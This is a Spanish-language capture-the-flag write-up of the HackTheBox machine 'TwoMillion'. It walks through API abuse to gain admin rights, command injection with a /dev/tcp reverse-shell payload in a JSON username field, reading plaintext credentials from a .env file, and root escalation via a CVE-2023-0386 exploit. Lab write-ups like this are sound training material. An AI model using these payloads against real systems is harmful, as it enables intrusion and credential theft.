



# Writeup de la máquina Twomillion realizado por Daniel Damota

<p align="center">
  
</p>

## Información General

- **Plataforma**: [Hackthebox](https://www.hackthebox.com/)
- **Nivel de Dificultad**: Fácil
- **Sistema Operativo Detectado**: Linux
- **Fecha de Ejecución**: 03/03/2025
- **Metodología**: Enumeración → Explotación → Escalada de Privilegios

## Machine Matrix

<p align="center">
  
</p>

## Técnicas utilizadas


- Abusar de funciones declaradas de Javascript desde la consola del navegador **(this)**.

- Abusar de la API para generar un código de invitación válido.

- Abusar de la API para elevar nuestro privilegio a administrador.

- Inyección de comandos a través de una funcionalidad mal diseñada de la API.

- Fuga de información (Credenciales en texto plano).

- Escalada de privilegios mediante explotación del Kernel (CVE-2023-0386) - Vulnerabilidad en OverlayFS.

---

## 1. Reconocimiento y Enumeración

Comprobamos si la máquina está activa mediante el envío de un paquete ICMP y por el TTL, que es cercano a 64, reconocemos que es una máquina Linux.

```
ping -c1 <IP>
```


Realizamos un primer escaneo con nmap para conocer los puertos abiertos de la máquina y volcamos el resultado en un archivo en formato "grepeable" para realizar un tratamiento mediante expresiones regulares (regex):

```
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n <IP> -oG allPorts
```



Usando una función en bash, extraemos la información mas relevante de la captura grepeable y copiamos los puertos abiertos a la clipboard mediante xclip. La función previamente defina es la siguiente:

```
# Extract nmap information:
function extractPorts(){
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{prin>
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{>
        echo -e "\n[*] Extracting information...\n" > extractP>
        echo -e "\t[*] IP Address: $ip_address"  >> extractPor>
        echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.>
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n"  >> extractP>
        cat extractPorts.tmp; rm extractPorts.tmp      
}
```


Ahora realizamos un escaneo mas exhaustivo de los puertos:

```
nmap -sCV -p<PUERTOS> <IP> -oN targeted
```


Viendo que hay un servicio web, vamos a usar whatweb para tener datos sobre el servicio y podemos observar que se hace referencia al dominio 2million.htb:


Añadimos el dominio a nuestro archivo hosts:

```
sudo nano /etc/hosts
```

Añadimos la siguiente línea:

```
10.10.11.221 2million.htb
```


Accedemos al servicio web:


Al realizar pruebas nos encontramos con un campo de código de invitación:


Si nos fijamos en la extensión de Wappalyzer, vemos que la página esta hecha en javascript:


Podemos fijarnos desde la consola del navegador si encontramos información relevante y usando this en la consola del navegador encontramos la siguiente información:



**NOTA**: Cuando ejecutas this en la consola del navegador, generalmente hace referencia al objeto window, que es el objeto global en los navegadores. Este gestiona el entorno de ejecución y contiene diversas funcionalidades, como acceso al DOM (document), historial de navegación (history), URL actual (location), almacenamiento local (localStorage y sessionStorage), funciones del navegador (alert(), setTimeout(), fetch()), y datos sobre el sistema y el navegador (navigator), por lo tanto podemos llegar a visualizar infomación relevante.

## 2. Explotación

Ejecutamos la función makeInviteCode encontrada anteriormente:

```
makeInviteCode()
```


La información que nos arroja es la siguiente:

**Object { data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr", enctype: "ROT13" }**

Vamos a buscar por internet un decodificador ROT13 y pegamos el contenido:

```
https://www.dcode.fr/rot-13-cipher
```

El resultado que nos dará es el siguiente:


Mandamos una solicitud por POST a la url mediante curl y recibimos una data encriptada en base64:

```
curl -s -X POST "http://2million.htb/api/v1/invite/generate"
```


Decodificamos la data encriptada en base64 (ignoramos el % del final):

```
echo "RDQ3VE8tSVY2OEwtUEVOTTEtOTRKUTI=" | base64 -d
```


Usamos el código de invitación para registrarnos en la web:


Tras introducir el código de invitación, nos encontramos con la siguiente página de registro:


Iniciamos sesión con el usuario creado:


Accedemos y nos encontramos con la siguiente página:


Para obtención de más información, vamos a comprobar si podemos realizar una petición por GET a los endpoints de la API (debemos añadir en el header el token de autenticación):

```
curl -s -X GET "http://2million.htb/api/v1/" -H "Cookie: PHPSESSID=<TOKEN>" | jq
```


Como información relevante, vemos que hay endpoints de creación de archivos openvpn para usuarios especificos y la modificación de ajustes de los usuarios (AVISO: no podremos crear archivos openvpn sin ser administradores). Vamos a intentar modificar nuestro usuario para convertirlo en administrador:

```
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh"| jq
```


Nos sale la advertencia debido a que el content type debe ser json, por lo tanto lo especificamos en la petición:

```
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" | jq
```


Ahora nos pide un parámetro email, por lo tanto lo especificamos en la data enviada en la petición:

```
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" -d '{"email": "dani@dani.com"}' | jq
```


Ahora nos pide el parametro de especificar si es o no administrador, por lo tanto lo especificamos en la data enviada en la petición:

```
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" -d '{"email": "dani@dani.com", "is_admin": 1}' | jq
```


Como vemos, nos hemos convertido en administrador, asi que ahora podemos crear archivos openvpn para cualquier usuario (lo cual intuimos que nos pedira un parámetro que manejemos para introducirlo en un comando y podremos inyectar comandos):

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json"
```


Nos pide un parámetro de nombre de usuario, por lo que vamos a especificar el usuario dani:

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" -d '{"username": "dani"}'
```


Como podemos observar, se genera un archivo openvpn para el usuario, como el usuario es un campo que podemos manejar, podemos intentar colar un comando en la data:

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" -d '{"username": "dani;whoami #"}'
```


Como podemos ver tenemos ejecución remota de comandos, así que vamos a intentar enviarnos una shell:

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=169nu0ra8on4n5mq2v9tvds9jh" -H "Content-Type: application/json" -d '{"username": "dani;bash -c \"bash -i >& /dev/tcp/10.10.14.248/443 0>&1\";"}'
```

```
netcat -lvnp 443
```


Realizamos un tratamiento de la stty para tener una consola más cómoda:

```
script /dev/null -c bash
```
```
ctrl + z
```
```
stty raw -echo; fg
```

```
reset xterm
```

```
export TERM=xterm
```


Ahora cambiamos el tamaño de filas y columnas de la stty, en una terminal de nuestra máquina atacante ponemos el siguiente comando:

```
stty size
```


Ponemos el tamaño de la stty en la terminal de la máquina víctima:

```
stty rows <filas> columns <columnas>
```


Si listamos los ficheros, encontramos un archivo llamado database.php:

```
cat Database.php
```


Vemos que obtiene las credenciales de otro sitio, así que listamos con ls -la para ver si encontramos algo:

```
ls -la
```


Vemos el contenido del archivo .env:

```
cat .env
```


Nos conectamos por ssh con las credenciales para mayor comodidad con la consola:

```
ssh admin@10.10.11.221
```


Visualizamos la primera flag de la máquina:


## 3. Escalada

Ahora que hemos conseguido el acceso, nuestro objetivo es convertirnos en el usuario root mediante una escalada de privilegios. Vamos a realizar unas cuantas enumeraciones:

Permisos asignados a nivel de sudoers:

```
sudo -l
```


Ficheros con permisos SUID:

```
find / -perm -4000 2>/dev/null
```


Capabilities:

```
getcap -r / 2>/dev/null
```


Version del kernel:

```
uname -a
```




Buscamos un exploit para la versión del kernel en internet:

```
kernel 5.15.70-051570-generic exploit
```


Encontramos el CVE-2023-0386, una vulnerabilidad que afecta al sistema de overlayfs en Linux. Este CVE permite a un usuario sin privilegios obtener acceso root mediante una condición de carrera en el manejo de los overlayfs.

El overlayfs es un sistema de archivos que permite superponer varios directorios en uno solo. La vulnerabilidad ocurre cuando se manipulan los permisos y propietarios de archivos en las capas superpuestas, permitiendo escalar privilegios.

Vamos a buscar un exploit para este CVE en github:

```
CVE-2023-0386 exploit github
```


Nos clonamos el repositorio en la máquina atacante:

```
git clone https://github.com/sxlmnwb/CVE-2023-0386
```


Ahora enviamos el repositorio a la máquina víctima mediante http y wget:


Ahora descomprimimos el archivo (para evitar problemas de permisos es mejor moverlo al directorio /tmp y descomprimirlo ahí):

```
mv comprimido.zip /tmp
```

```
unzip comprimido.zip
```


Entramos al directorio:

```
cd CVE-2023-0386
```


Seguimos los pasos del repositorio para conseguir la escalada:

```
make all
```


Iniciamos dos terminales y en la primera ponemos lo siguiente

```
./fuse ./ovlcap/lower ./gc
```


En la segunda (que iniciamos conectandonos por ssh de nuevo), ponemos lo siguiente:

```
./exp
```


Visualizamos la flag final:


